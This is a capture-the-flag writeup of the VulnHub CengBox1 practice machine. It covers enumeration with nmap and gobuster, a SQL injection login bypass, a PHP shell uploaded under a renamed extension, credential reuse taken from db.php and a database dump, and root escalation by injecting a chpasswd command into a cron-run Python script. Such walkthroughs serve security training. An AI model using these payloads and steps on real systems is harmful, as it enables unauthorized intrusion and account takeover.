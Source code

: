 ```yaml
---
title: Vulnhub - CengBox1
description: My writeup on CengBox1 box.
categories:
 - vulnhub
tags: vulnhub
---
```


![](https://i.imgur.com/9GTOe3V.png)

Hi all, that was a really easy box.

You can find the machine there > [CengBox1](https://www.vulnhub.com/entry/cengbox-1,475/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.2
$ nmap -sC -sV -p- -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-03 15:28 EEST
Nmap scan report for cengbox.zte.com.cn (192.168.1.2)
Host is up (0.00045s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a9:cc:28:f3:8c:f5:0e:3f:5a:ed:13:f3:ad:53:13:9b (RSA)
|   256 f7:3a:a3:ff:a1:f7:e5:1b:1e:6f:58:5f:c7:02:55:9b (ECDSA)
|_  256 f0:dd:2e:1d:3d:0a:e8:c1:5f:52:7c:55:2c:dc:1e:ef (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: CEng Company
MAC Address: 08:00:27:73:EB:42 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's run `gobuster` on it!

```
$ gobuster dir -q -u http://$ip/ -w /root/Documents/wordlists/SecLists/Discovery/Web-Content/raft-large-directories.txt -x php,txt,html -o gobuster.txt
/js (Status: 301)
/css (Status: 301)
/img (Status: 301)
/uploads (Status: 301)
/index.php (Status: 200)
/vendor (Status: 301)
/server-status (Status: 403)
/masteradmin (Status: 301)
/index.php (Status: 200)
```

So the interesting directories are :

```
/uploads
/masteradmin
```

But all of them give `Forbidden`, let's run `gobuster` inside `/masteradmin` for further enumeration.

```
$ gobuster dir -q -u http://$ip/masteradmin/ -w /root/Documents/wordlists/SecLists/Discovery/Web-Content/raft-large-directories.txt -x php,txt,html -o gobuster2.txt
/images (Status: 301)
/js (Status: 301)
/css (Status: 301)
/login.php (Status: 200)
/upload.php (Status: 200)
/db.php (Status: 200)
/fonts (Status: 301)
/vendor (Status: 301)
```

## SQL Injection Authentication Bypass - Shell as www-data

Here we go `/login.php` asks for credentials :

![](https://i.imgur.com/9zmQYvL.png)

I tried the classic ones `admin:admin` or `guest:guest` but nothing, so i decided to exploit this manually without using sqlmap.

The source code will be something like :

```php
$username=$_POST['username'];
$password=$_POST['password'];
$query="select username,pass from users where username='$username' and password='$password' limit 0,1";
```

So here takes the user input and put it into the SQL query. So here we can see the query is quoting the input with single quote, that means we have to use a single quote to close the first quote and then inject our payload.

Like :

```
username : ' or 1=1--
password : ' or 1=1--
```

And we're in! :D We can see this upload form :

![](https://i.imgur.com/uqlojG4.png)

Let's try to create a simple php script to see if we can execute php code.

```
$ cat test.php 
<?php
echo "hellooooo";
?>
```

When we upload it we can see this error -> `extension not allowed, please choose a CENG file.` Alright, let's rename our `test.php` to `test.CENG`.

Now it says : `Success` & we can find the file under `/uploads/test.CENG`

![](https://i.imgur.com/WOf5Kow.png)

Now let's simply upload our shell as `CENG` file :)

We have shell, i'll show you some tricks for fully interactive reverse shell.

```
$ nc -lvp 6666
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@cengbox:/$ ^Z (ctrl + z)
[1]+  Stopped                 nc -lvp 6666
$ stty raw -echo
$ fg
www-data@cengbox:/$ export TERM=xterm
www-data@cengbox:/$
```

Now we can see this inside `db.php` :

```php
www-data@cengbox:/var/www/html/masteradmin$ cat db.php
<?php
$serverName = "localhost";
$username = "root";
$password = "SuperS3cR3TPassw0rd1!";
```

Let's connect to mysql and search for credentials.

```
www-data@cengbox:/var/www/html/masteradmin$ mysql -u root -p
Enter password: 

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| cengbox            |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.01 sec)

mysql> use cengbox;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-------------------+
| Tables_in_cengbox |
+-------------------+
| admin             |
+-------------------+
1 row in set (0.00 sec)

mysql> select * from admin;
+----+-------------+---------------+
| id | username    | password      |
+----+-------------+---------------+
|  1 | masteradmin | C3ng0v3R00T1! |
+----+-------------+---------------+
1 row in set (0.00 sec)

mysql> exit;
```

Great, let's this password with the system user `cengover` :

```
www-data@cengbox:/var/www/html/masteradmin$ su - cengover
Password: 
cengover@cengbox:~$ whoami
cengover
```

Perfect, we need to transfer `pspy` to detect a cronjob.

```
cengover@cengbox:~$ cd /tmp
cengover@cengbox:/tmp$ wget -q $ip/pspy64; chmod +x pspy64
cengover@cengbox:/tmp$ ./pspy64 -p -i 1000
```

This file runs as root :

```
2020/07/03 16:20:01 CMD: UID=0    PID=1661   | /bin/sh -c /usr/bin/python3 /opt/md5check.py 
```

I discovered a new trick, instead of using a reverse shell or something we can simply change root password. Add this :

```python
import os
os.system("echo 'root:pwned' | sudo chpasswd")
```

And now we can login in as root :

```
cengover@cengbox:/opt$ su - root
Password: 
root@cengbox:~# 
```

Let's read the flag :

```
root@cengbox:~# cat /root/root.txt
 / ____|  ____|           |  _ \           
| |    | |__   _ __   __ _| |_) | _____  __
| |    |  __| | '_ \ / _` |  _ < / _ \ \/ /
| |____| |____| | | | (_| | |_) | (_) >  < 
 \_____|______|_| |_|\__, |____/ \___/_/\_\
                      __/ |                
                     |___/                 

Congrats. Hope you enjoyed it and you can contact me on Twitter @arslanblcn_

a51e522b22a439b8e1b22d84f71cf0f2
root@cengbox:~# 
```

Fun box :)
